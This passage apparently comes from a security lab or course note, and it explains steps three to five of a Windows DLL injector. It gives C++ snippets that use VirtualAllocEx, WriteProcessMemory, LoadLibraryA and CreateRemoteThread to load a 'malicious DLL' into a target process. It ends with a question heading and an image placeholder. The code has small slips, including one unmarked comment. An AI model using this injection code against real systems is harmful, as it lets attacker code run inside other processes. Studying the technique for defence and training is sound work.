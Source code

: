 At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using `VirtualAllocEx`.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step four, we need to write the malicious DLL to the allocated memory location. We can use `WriteProcessMemory` to write to the allocated region.

```cpp
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```

At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use `LoadLibrary`; imported from `kernel32`. Once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function.

```cpp

LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

We can compile these steps together to create a DLL injector. Use the C++ injector provided and experiment with DLL injection.

# Question
---

![[Pasted image 20250519121751.png]]
